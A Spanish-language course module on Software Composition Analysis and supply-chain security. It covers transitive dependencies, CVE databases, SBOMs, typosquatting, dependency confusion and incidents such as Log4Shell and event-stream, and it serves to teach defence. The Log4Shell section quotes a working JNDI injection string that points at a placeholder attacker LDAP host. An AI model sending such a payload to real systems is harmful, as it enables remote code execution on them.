






# Concepto 5 — SCA y Cadena de Suministro

## Objetivo de aprendizaje

Al terminar este modulo entenderas que es SCA, por que el 80%+ del codigo de
una aplicacion moderna es de terceros, como funcionan las dependencias
transitivas, que son las bases de datos de CVE, como generar e interpretar un
SBOM, y los principales ataques a la cadena de suministro de software.

---

## Que es SCA

**SCA** (Software Composition Analysis) es el proceso de identificar todos los
componentes de codigo abierto y de terceros en una aplicacion, y verificar si
tienen vulnerabilidades conocidas o problemas de licencia.

| SAST | SCA |
|------|-----|
| Analiza **tu** codigo | Analiza el codigo de **otros** (dependencias) |
| Busca **patrones inseguros** | Busca **vulnerabilidades conocidas** (CVEs) |
| Encuentra bugs que tu equipo introdujo | Encuentra bugs que la comunidad introdujo |
| Resultado: hallazgos con CWE | Resultado: CVEs con CVSS score |

!!! danger "El dato clave"
    Segun estudios de Synopsys y Sonatype, entre el **80% y el 90%** del
    codigo de una aplicacion moderna proviene de **dependencias de terceros**
    (librerias open source). Esto significa que la mayoria de las
    vulnerabilidades de tu aplicacion **no las escribio tu equipo**.

---

## El 80%+ es codigo de terceros



### Ejemplo concreto: una app Python/Flask

```
Tu aplicacion (app/)
├── 500 lineas de codigo propio
├── requirements.txt (8 dependencias directas)
│   ├── Flask==3.0.0
│   │   ├── Werkzeug>=3.0.0          ← transitiva
│   │   ├── Jinja2>=3.1.2            ← transitiva
│   │   │   └── MarkupSafe>=2.0      ← transitiva de transitiva
│   │   ├── itsdangerous>=2.1.2      ← transitiva
│   │   ├── click>=8.1.3             ← transitiva
│   │   └── blinker>=1.6.2           ← transitiva
│   ├── requests==2.31.0
│   │   ├── charset-normalizer       ← transitiva
│   │   ├── idna                     ← transitiva
│   │   ├── urllib3                   ← transitiva
│   │   └── certifi                  ← transitiva
│   ├── SQLAlchemy==2.0.23
│   │   └── ... (mas transitivas)
│   └── ... (5 dependencias mas)
└── Total: 8 directas → 47 paquetes instalados
```

!!! info "Tu `requirements.txt` tiene 8 lineas, pero pip instala 47 paquetes"
    Las **dependencias transitivas** son el problema invisible. Tu no elegiste
    `charset-normalizer`, pero esta en tu aplicacion. Si tiene un CVE, tu
    aplicacion es vulnerable.

---

## Dependencias transitivas



### Por que son peligrosas

| Aspecto | Dependencia directa | Dependencia transitiva |
|---------|--------------------|-----------------------|
| **Visibilidad** | La ves en tu requirements.txt | Invisible hasta que la buscas |
| **Decision** | Tu la elegiste | Alguien mas la eligio por ti |
| **Actualizacion** | Tu la controlas | Depende de que se actualice la directa |
| **Confianza** | La evaluaste (esperemos) | Probablemente nunca la revisaste |
| **Proporcion** | ~20% de los paquetes | ~80% de los paquetes |

!!! warning "La vulnerabilidad que no ves"
    Un estudio de Endor Labs encontro que el **95% de las vulnerabilidades**
    en aplicaciones open source estan en **dependencias transitivas**, no
    en las directas. Es decir, el problema esta en el codigo que nunca
    elegiste ni revisaste.

---

## Bases de datos de vulnerabilidades

SCA funciona comparando las versiones de tus dependencias contra bases de datos
de vulnerabilidades conocidas:

| Base de datos | Mantenida por | Cobertura | URL |
|--------------|--------------|-----------|-----|
| **NVD** (National Vulnerability Database) | NIST (gobierno EE.UU.) | Universal | nvd.nist.gov |
| **GitHub Advisory Database** | GitHub + comunidad | Amplia | github.com/advisories |
| **OSV** (Open Source Vulnerabilities) | Google | Open source | osv.dev |
| **Snyk Vulnerability DB** | Snyk | Comercial + open | snyk.io/vuln |
| **VulnDB** | Risk Based Security | Comercial, muy completa | vulndb.cyberriskanalytics.com |

### Anatomia de un CVE

| Campo | Ejemplo | Descripcion |
|-------|---------|-------------|
| **CVE ID** | CVE-2021-44228 | Identificador unico global |
| **Descripcion** | "Remote code execution in Log4j..." | Que hace la vulnerabilidad |
| **CVSS Score** | 10.0 (Critical) | Severidad numerica 0-10 |
| **CVSS Vector** | AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H | Detalle del scoring |
| **CWE** | CWE-917 (Expression Language Injection) | Categoria de debilidad |
| **Versiones afectadas** | Log4j 2.0-beta9 a 2.14.1 | Que versiones son vulnerables |
| **Version corregida** | Log4j 2.17.0 | Version con el fix |
| **Publicado** | 2021-12-10 | Cuando se divulgo |

---

## SBOM: Software Bill of Materials

Un **SBOM** es un inventario completo de todos los componentes de software que
componen una aplicacion. Es el equivalente a la lista de ingredientes de un
producto alimenticio.

### Formatos estandar

| Formato | Mantenido por | Uso principal |
|---------|--------------|--------------|
| **SPDX** (Software Package Data Exchange) | Linux Foundation | Licencias + componentes |
| **CycloneDX** | OWASP | Seguridad + vulnerabilidades |
| **SWID Tags** | ISO/IEC 19770-2 | Gestion de activos |

### Ejemplo de SBOM (CycloneDX simplificado)

```json
{
  "bomFormat": "CycloneDX",
  "specVersion": "1.5",
  "components": [
    {
      "type": "library",
      "name": "flask",
      "version": "3.0.0",
      "purl": "pkg:pypi/flask@3.0.0",
      "licenses": [{ "id": "BSD-3-Clause" }]
    },
    {
      "type": "library",
      "name": "werkzeug",
      "version": "3.0.0",
      "purl": "pkg:pypi/werkzeug@3.0.0"
    },
    {
      "type": "library",
      "name": "urllib3",
      "version": "2.1.0",
      "purl": "pkg:pypi/urllib3@2.1.0",
      "vulnerabilities": [
        { "id": "CVE-2023-XXXXX", "severity": "HIGH" }
      ]
    }
  ]
}
```

!!! info "SBOM como requisito regulatorio"
    Desde la Executive Order 14028 (EE.UU., mayo 2021), los proveedores de
    software al gobierno federal deben proporcionar SBOMs. La directiva
    NIS2 de la UE tambien impulsa requisitos similares. Generar SBOMs
    automaticamente en el pipeline es una buena practica que se esta
    convirtiendo en **requisito legal**.

### SBOM en el pipeline



---

## Ataques a la cadena de suministro

### Typosquatting

El atacante publica un paquete con un nombre similar a uno popular:

| Paquete real | Paquete malicioso | Ecosistema |
|-------------|------------------|------------|
| `requests` | `requesst`, `request` | PyPI |
| `lodash` | `lodahs`, `l0dash` | npm |
| `colors` | `colour`, `co1ors` | npm |



### Dependency Confusion

El atacante publica un paquete **publico** con el mismo nombre que un paquete
**privado** interno de una empresa, con un numero de version mas alto.



!!! danger "Dependency confusion ha afectado a grandes empresas"
    En 2021, el investigador Alex Birsan demostro este ataque contra
    **Apple, Microsoft, PayPal, Shopify, Netflix, Yelp y Uber**, obteniendo
    ejecucion de codigo en sus sistemas internos. Gano mas de $130,000 en
    bug bounties.

### Compromiso de cuenta de mantenedor

El atacante obtiene acceso a la cuenta del mantenedor de un paquete popular y
publica una version maliciosa.

---

## Incidentes reales

### Log4Shell (CVE-2021-44228)

!!! example "Incidente: Log4Shell — Diciembre 2021"
    **Que paso**: Se descubrio una vulnerabilidad critica (CVSS 10.0) en
    Apache Log4j, una libreria de logging usada por **millones** de
    aplicaciones Java. Permitia ejecucion remota de codigo (RCE) con una
    simple cadena de texto en un campo de log: `${jndi:ldap://atacante/a}`.

    **Impacto**:

    - Afecto a practicamente toda empresa que usara Java
    - Explotada activamente en las primeras 24 horas
    - Las organizaciones tardaron **semanas/meses** en identificar todas las
      instancias de Log4j en sus sistemas
    - Muchas no sabian que la tenian (dependencia transitiva)

    **Leccion para SCA**:

    - Sin un SBOM, no puedes responder "usamos Log4j?" rapidamente
    - Las dependencias transitivas eran el mayor problema — Log4j estaba
      enterrada en frameworks como Spring Boot
    - SCA automatizado en CI habria identificado la version vulnerable
      inmediatamente

### event-stream (2018)

!!! example "Incidente: event-stream — Compromiso de mantenedor"
    **Que paso**: Un atacante convencion al mantenedor agotado del paquete npm
    `event-stream` (~2 millones de descargas semanales) de transferirle el
    mantenimiento. Luego anadio una dependencia maliciosa (`flatmap-stream`)
    que robaba Bitcoin de wallets de Copay.

    **Leccion**:

    - La confianza en el ecosistema open source es fragil
    - Un solo paquete comprometido afecta a millones de proyectos
    - SCA detecta CVEs conocidos, pero no backdoors nuevos
    - La revision de cambios en dependencias es necesaria

### colors.js y faker.js (2022)

!!! example "Incidente: colors.js — Sabotaje del mantenedor"
    **Que paso**: El creador de `colors.js` y `faker.js` (paquetes npm con
    millones de descargas) publico intencionalmente versiones que contenian
    un bucle infinito, rompiendo miles de proyectos que dependian de ellos.
    Lo hizo como protesta por el uso comercial de software open source sin
    compensacion.

    **Leccion**:

    - La cadena de suministro depende de personas, no solo de codigo
    - El pinning de versiones habria evitado la actualizacion automatica
    - Los SBOMs permiten responder rapidamente "que proyectos usan este
      paquete?"

---

## Estrategia SCA en el pipeline



### Controles recomendados

| Control | Descripcion | Herramienta |
|---------|-------------|-------------|
| **Escaneo en CI** | Cada PR se escanea contra CVE DBs | Trivy, Grype, Snyk |
| **SBOM automatico** | Generar SBOM con cada build | Trivy, Syft |
| **Gate por severidad** | Bloquear si CVE Critical/High | Policy en pipeline |
| **Pinning de versiones** | Fijar versiones exactas | `==` en requirements.txt |
| **Lockfile** | Usar lockfiles para reproducibilidad | `pip freeze`, `package-lock.json` |
| **Registro privado** | Proxy que cachea y escanea paquetes | Artifactory, Azure Artifacts |
| **Revision de actualizaciones** | Revisar cambios en dependencias antes de aceptar | Dependabot, Renovate |
| **Politica de licencias** | Rechazar licencias incompatibles | Trivy license scanning |

---

## Resumen

| Tema | Ideas clave |
|---|---|
| **Que es SCA** | Analiza dependencias, busca CVEs conocidos, complemento de SAST |
| **80% codigo terceros** | Dependencias directas y transitivas, invisibles pero peligrosas |
| **CVE y SBOM** | NVD, GitHub Advisory, CVSS scoring, CycloneDX, SPDX |
| **Ataques supply chain** | Typosquatting, dependency confusion, compromiso de mantenedor |
| **Incidentes** | Log4Shell, event-stream, colors.js |


---


[Anterior: Analisis Estatico :octicons-arrow-left-24:](../concepto04-sast/index.md){ .md-button }
[Siguiente: Artefactos e Inmutabilidad :octicons-arrow-right-24:](../concepto06-artefactos/index.md){ .md-button .md-button--primary }
